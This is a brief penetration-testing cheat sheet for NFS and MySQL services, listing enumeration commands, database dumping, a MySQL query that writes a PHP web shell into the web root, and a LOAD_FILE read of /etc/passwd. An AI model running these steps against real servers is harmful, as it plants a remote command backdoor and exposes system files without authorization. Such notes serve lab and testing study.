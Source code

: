 # NFS (2049)

```bash
showmount -e <machine_ip>

mkdir target-NFS
sudo mount -t nfs <machine_ip>:/ ./target-NFS/ -o nolock
```

# MySQL (3306)

```bash
mysql -h 192.168.100.1 -u admin -p
```

```
show databases;
use <database>;
show tables;
select * from <table>;

SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
select LOAD_FILE("/etc/passwd");
```

Notes :
- oublier le ';' ?  \c ou ctrl+d

